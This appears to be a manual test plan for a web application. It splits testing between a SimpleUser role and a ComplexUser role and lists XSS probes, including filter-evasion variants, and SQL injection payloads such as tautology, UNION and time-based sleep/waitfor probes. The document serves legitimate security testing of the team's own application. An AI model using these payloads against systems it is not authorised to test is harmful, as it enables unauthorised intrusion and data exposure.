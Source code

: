 ## Intro

There will be two actors involved in two rounds of testing: SimpleUser and ComplexUser, and all testing will be done manually. In general, the tasks will be divided as follows: SimpleUser will be responsible for testing all page size-responsively and all forms with various normal data that will be predetermined by some rule, and ComplexUser will be responsible for testing all forms with various data/Payload XSS and SQLinjection and closely observing the response detail. The testing can be continuously, during the development process until the final phase on April 5-10, 2023. There are some rules to directive the testing process and how to record the testing results, so the testing will be `inflexible`.

The testing with SimpleUser, which attempts to test all forms with various normal data, tends to be more suitable for `black box testing`, where testing is done from the user's point of view or the use of the application without paying attention to internal implementation details. Meanwhile, the testing with ComplexUser, which attempts to test with data/Payload XSS and closely observe the response, tends to be more suitable for `grey box testing`, where testing is done with some knowledge of the design and structure of the application.

## Guideline for SimpleUser

1. Login with Google (Google Auth)

2. Explore the entire page

3. Test the responsiveness of the entire page

4. Test all forms repeatedly

5. Test all forms in various conditions.

## Guideline for ComplexUser

1. Manual Registration and Login

2. Manually test the register form repeatedly for SQLi and XSS vulnerabilities

3. Manually test the login form for SQLi and XSS vulnerabilities

4. Repeatedly test all forms in the CMS

5. Test all forms in various conditions.

## General Rules

1. ComplexUser and SimpleUser are not allowed to exchange information regarding the testing process and results.

2. ComplexUser and SimpleUser are not allowed to be in close proximity to each other while one or both are conducting testing.

3. Testing is conducted manually without the use of automated scripts.

4. If an error occurs during the testing process, testing must continue until it cannot be continued.

5. ComplexUser and SimpleUser must understand the format or guidelines for recording testing results and processes.

## Payload XSS

```
"-prompt(8)-"
'-prompt(8)-'
";a=prompt,a()//
';a=prompt,a()//
'-eval("window['pro'%2B'mpt'](8)")-'
"-eval("window['pro'%2B'mpt'](8)")-"
"onclick=prompt(8)>"@x.y
"onclick=prompt(8)><svg/onload=prompt(8)>"@x.y
<image/src/onerror=prompt(8)>
<img/src/onerror=prompt(8)>
<image src/onerror=prompt(8)>
<img src/onerror=prompt(8)>
<image src =q onerror=prompt(8)>
<img src =q onerror=prompt(8)>
</scrip</script>t><img src =q onerror=prompt(8)>
<script\x20type="text/javascript">javascript:alert(1);</script>
<script\x3Etype="text/javascript">javascript:alert(1);</script>
<script\x0Dtype="text/javascript">javascript:alert(1);</script>
<script\x09type="text/javascript">javascript:alert(1);</script>
<script\x0Ctype="text/javascript">javascript:alert(1);</script>
<script\x2Ftype="text/javascript">javascript:alert(1);</script>
<script\x0Atype="text/javascript">javascript:alert(1);</script>
'`"><\x3Cscript>javascript:alert(1)</script>
'`"><\x00script>javascript:alert(1)</script>
```

## SQLinjection Payload

```
OR 1=1
OR 1=0
OR x=x
OR x=y
OR 1=1#

1' ORDER BY 1--+
1' ORDER BY 2--+
1' ORDER BY 3--+

1' ORDER BY 1,2--+
1' ORDER BY 1,2,3--+

1' GROUP BY 1,2,--+
1' GROUP BY 1,2,3--+
' GROUP BY columnnames having 1=1 --

-1' UNION SELECT 1,2,3--+
' UNION SELECT sum(columnname ) from tablename --

sleep(5)#
1 or sleep(5)#
" or sleep(5)#
' or sleep(5)#
" or sleep(5)="
' or sleep(5)='
1) or sleep(5)#
") or sleep(5)="
') or sleep(5)='
1)) or sleep(5)#
")) or sleep(5)="
')) or sleep(5)='
;waitfor delay '0:0:5'--
);waitfor delay '0:0:5'--
';waitfor delay '0:0:5'--
";waitfor delay '0:0:5'--
');waitfor delay '0:0:5'--
");waitfor delay '0:0:5'--
));waitfor delay '0:0:5'--
'));waitfor delay '0:0:5'--
"));waitfor delay '0:0:5'--
benchmark(10000000,MD5(1))#
```

## More Payload at : [PayloadBox Github](https://github.com/payloadbox)
